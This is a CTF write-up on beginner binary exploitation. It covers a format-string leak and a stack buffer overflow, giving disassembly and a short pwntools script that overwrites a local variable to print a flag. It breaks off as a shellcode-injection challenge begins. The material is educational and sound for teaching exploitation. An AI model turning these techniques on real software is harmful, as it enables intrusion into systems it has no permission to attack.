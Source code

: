 # PWN : Detailed binary exploitation writeup 
I have created a simple writeup about the four tasks I completed in the CTF.
all these tasks involve basic binary exploitation vulnerabilities , you just need to identify the vulnerability and how to exploit it.
There are no stripped binaries or anything complex , everything is straightforward.
## First challenge ( Warmup ) : simple format string vulnerability
In this task, you are provided with a simple binary. If you try to reverse it and dig a little deeper, you will find something interesting.
```C
      printf("Tell me your secret >> ");
      fgets(local_228,0x108,stdin);
      iVar1 = strncmp(local_228,local_118,0x108);
      if (iVar1 == 0) break;
      printf(local_228);
```
The function printf() doesn't specify the type of the variable that it's going to print. In this case, we have a format string vulnerability, allowing us to leak data from the stack.
```C
  __stream = fopen("flag.txt","r");
  if (__stream == (FILE *)0x0) {
    puts("The flag.txt file does not exist, please create it");
    uVar2 = 0xffffffff;
  }
```
Additionally, we have read the flag from the server and stored it in memory, so it's possible to leak the flag from memory.

## Second challenge ( Baby BOF ) : Buffer overflow to overwrite variable value
first of all we have to check the binary if the mitigations are enabled :
```console
checksec babybof
[*] '/home/elmentos/Desktop/Romdhan_CTF_TASKS/BabyBOF(Done)/to_host/babybof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
In this case, the buffer overflow protection is disabled, so let's dig deeper and see how we can exploit this to solve the challenge.
After reversing the binary with ghidra we have found :
```C
  char local_38 [44];
  int local_c;
  setup();
  local_c = 0x1337;
  puts(
      "*---------------------------------------------------------------x1NF3RN0x-------------------- ---------------------------------------*"
      );
  puts(
      "*-------They told me that there are new pwn learners in this CTF, so I made this as an intro to buffer overflow---------------------*"
      );
  puts(
      "*-------Show me what you can do, and I will tell you my secret. Good luck!<3----------------- ---------------------------------------*"
      );
  printf("*-------Tell me the secret of the Spark Vault locker ^-^ : ");
  gets(local_38);
  if (local_c == 0x1338) {
    puts("You won :),that was easy right !!!!!!!! \n");
    puts("Here is my secret :\n");
    system("/bin/cat flag.txt");
```
Here, we have a variable called local_38 declared with a size of 44 bytes. The issue is that there is no user input control for the length of local_38, so we can overflow the memory. In other words, we can access other memory cells.
!! Don't use gets
so in this challenge we have a variable called local_c intialized with the value 0x1337 , we have to overwrite it with 0x1338 to make the condition true to let the program print the flag .
### First Step : search for the appropriate offest between the input var (local_38) and the local_c in other words we have to search how many bytes to write until we reach the local_c :
don't worry, assembly is easy , you just have to take your time learning it. 
Anyway, here we have, after the printf function:
```asm
   0x0000000000401276 <+89>:	call   0x4010b0 <printf@plt>
   0x000000000040127b <+94>:	lea    rax,[rbp-0x30]
   0x000000000040127f <+98>:	mov    rdi,rax
   0x0000000000401282 <+101>:	mov    eax,0x0
   0x0000000000401287 <+106>:	call   0x4010c0 <gets@plt>
   0x000000000040128c <+111>:	cmp    DWORD PTR [rbp-0x4],0x1338
```
```asm
   0x000000000040127b <+94>:	lea    rax,[rbp-0x30]
```
This instruction saves the address of rbp-0x30 in the register rax. Logically, he is planning to pass the rax register as an argument to the get functions. After that, he is calling the gets function. So here, we can conclude that he is storing the input in rbp-0x30 : 
```asm
   0x000000000040127b <+94>:	lea    rax,[rbp-0x30]
   0x000000000040127f <+98>:	mov    rdi,rax
   0x0000000000401282 <+101>:	mov    eax,0x0
   0x0000000000401287 <+106>:	call   0x4010c0 <gets@plt>
```
And in this part, he is comparing the value that is stored in rbp-0x4 with 0x1338, so we can conclude that the variable we have to overwrite is at the address rbp-0x4 :
```asm
   0x000000000040128c <+111>:	cmp    DWORD PTR [rbp-0x4],0x1338
```
so now lets' calculate the offset between the input ( local_38 ) and the variable we have to overwrite ( local_c ) :
0x30 - 0x4 = 44 (in decimal)
let's craft our payload : 
```python
  padding = b"A" * 44
  payload = padding + p64(0x1338)
```
The padding or the offset + the value we have to overwrite local_c with  in little endian format and size of 8 bytes because we are working with a 64-bit architecture.
```python
  #!/usr/bin/python3
  from pwn import *
  p = process('./babybof')
  padding = b"A" * 44
  print(padding)
  payload = padding + p64(0x1338)
  print(p.clean().decode())
  print(payload)
  print(payload.decode())
  p.sendline(payload)
  print(p.clean())
```
## Third Challenge (Escape the Jail): Buffer Overflow that Leads to Shellcode Injection
as usual, we start by checking the binary security to get an overview of the possible attacks :
```console
checksec escape_the_jail
[*] '/home/elmentos/Desktop/Romdhan_CTF_TASKS/escape_the_jail(Done)/to_host/escape_the_jail'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```
